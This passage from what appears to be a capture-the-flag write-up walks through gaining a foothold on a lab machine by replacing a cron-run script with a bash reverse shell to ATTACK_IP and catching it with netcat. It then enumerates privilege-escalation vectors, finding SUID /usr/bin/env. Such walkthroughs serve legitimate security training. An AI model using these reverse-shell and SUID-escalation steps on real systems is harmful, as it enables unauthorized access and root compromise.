 We can now repeat the exploit with a new `clean.sh` script containing a simple bash reverse shell (I'm hiding my IP here to protect my continued sloppiness on the VPN):

```bash 
#!/bin/bash

bash -i >& /dev/tcp/ATTACK_IP/4242 0>&1
```
We then upload the new `clean.sh` script, set up a netcat listener, and wait for the cronjob to run the script :

```console
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [U_THOUGHT_ID_FORGET?] from (UNKNOWN) [10.10.249.175] 57440
bash: cannot set terminal process group (1590): Inappropriate ioctl for device
bash: no job control in this shell
namelessone@anonymous:~$ id
id
uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

Go get the user flag at /home/namelessone/user.txt. If you're curious, you can also run `crontab -l` to see the cronjob we exploited for the foothold.

## 3: Privesc - lolbins, suid

We have already seen with the `id` command in the above snippet that `namelessone` is a member of the sudo group, but we don't have their credentials to run any sudo commands (if you run `sudo -l` the shell will complain that no tty is present - try `sudo -l -S` to try with a password from standard input).

At this stage, we can perform our basic privesc enumeration steps (you can also run an enumeration script to reach the same conclusions, but this machine does not require extensive enum for privesc) :
* user discovery : `cat /etc/passwd` shows no other non-system users
* process discovery  : `ps -aux` shows no obviously vulnerable services
* listening processes : `ss -tunlp` shows the same ports discovered by nmap, as well as an additional port 53 for DNS on 127.0.0.1
* cronjobs : `ls /etc/cron*` shows no unusual system level cronjobs
* SUID discovery : `find / -perm /4000 2>/dev/null` shows that `/usr/bin/env` has the SUID bit set

`/usr/bin/env` is used to configure terminal environments and can also be used to run other scripts or binaries (we commonly see it used to improve the portability of scripts with `#!/usr/bin/env python`, etc.). Presumably, any script or binary run by `/usr/bin/env` will retain the permissions associated with its SUID bit. To verify that this is a possible privesc vector, we should check that the `/usr/bin/env` binary is owned by root (or our target user - in this case, it is root) and is executable by the current user :

```console
namelessone@anonymous:~$ ls -la /usr/bin/env
ls -la /usr/bin/env
-rwsr-xr-x 1 root root 35000 Jan 18  2018 /usr/bin/env
```
Two for two. We can try then to open a terminal session using the `/usr/bin/env` binary (the `-p` flag on bash ensure that the session preserves the permissions inherited from the SUID bit):
